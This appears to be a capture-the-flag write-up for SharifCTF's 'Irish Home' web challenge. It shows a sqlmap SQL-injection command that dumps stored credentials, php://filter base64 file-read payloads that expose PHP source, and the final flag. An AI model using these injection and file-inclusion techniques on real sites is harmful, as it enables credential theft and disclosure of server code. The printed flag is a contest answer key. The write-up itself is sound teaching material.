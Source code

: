 Irish Home
WEB - 207 points

http://ctf.sharif.edu:8082/


This was a blog with two posts,  i took a quick look at the sauce but there was nothing exciting and I checked for common files like robots.txt, but found nothing. However, there was a login page:
http://ctf.sharif.edu:8082/login.php

Tested with admin: admin and was told "That account does not seem to exist," ok so the admin user does not exist.
I then began playing with sqlmap and after a short while, so I saw that it was vulnerable - sql injection, the final payload to get the user name and password were:

```
-u http://ctf.sharif.edu:8082/login.php --data="username=admin&password=admin" --level=3 -D irish_home -T users -C username,password --dump

Table: users
[1 entry]
+------------+----------------------------------+
| username   | password                         |
+------------+----------------------------------+
| Cuchulainn | 2a7da9c@088ba43a_9c1b4Xbyd231eb9 |
+------------+----------------------------------+
```

So I was able to log into the control panel and there were a couple of different functions - delete and edit.
You could also check out the pages that existed:
http://ctf.sharif.edu:8082/pages/show.php?page=notice

The 'notice' page gave me information that flag.php has been deleted:
```
"Important Notice
Ter de pesky contestants av dat bleedin darn SharifCTF:

Sum bugger deleted me beloved flag.php file.
Oi want it back! not next week, not the-morra — roi nigh!
An' be queck aboyt it, as naw opshuns is aff de table.
Don't tell me lay-ra dat yer weren't warned."
```

Did some fuzzing on 'page =' with burp but didn't find anything interesting. Another team member - deep noticed that it was possible to load any file with php as extension.
But flag.php was removed: /

After some headache, I realized that with php filters it may be possible to read the code, and it worked \o/
php://filter/convert.base64-encode/resource=file

First I tested with notice.php and it went well, so delete.php was the obvious the interesting file.
http://ctf.sharif.edu:8082/pages/show.php?page=php://filter/convert.base64-encode/resource%3d../delete

The code from delete.php :
```
<?php
require_once('header.php');

if(isset($_GET['page'])) {
	$fname = $_GET['page'] . ".php";
	$fpath = "pages/$fname";
	if(file_exists($fpath)) {
		rename($fpath, "deleted_3d5d9c1910e7c7/$fname");
	}
}


?>
<div style="text-align: center;">
<h3 style="color: red;">Site is under maintenance 'til de end av dis f$#!*^% SharifCTF.</h3><br/>
<h4><b>Al' destructive acshuns are disabled!</b></h4>
</div>
<?php
require_once('footer.php');
?>
```

Ok so the file was not deleted, the script just moved it to a different folder: rename($fpath, "deleted_3d5d9c1910e7c7/$fname");

So the next payload to read flag.php:
php://filter/convert.base64-encode/resource%3d../deleted_3d5d9c1910e7c7/flag

```
<?php

$username = 'Cuchulainn';
$password = ;	// Oi don't save me bleedin password in a shithole loike dis.

$salt = 'd34340968a99292fb5665e';

$tmp = $username . $password . $salt;
$tmp = md5($tmp);

$flag = "SharifCTF{" . $tmp . "}";

echo $flag;
?>
```

Last step - declare the variable $password with the password('2a7da9c@088ba43a_9c1b4Xbyd231eb9') and then run the code to get the flag.

SharifCTF{65892135758717f9d9dfd7063d2c2281}


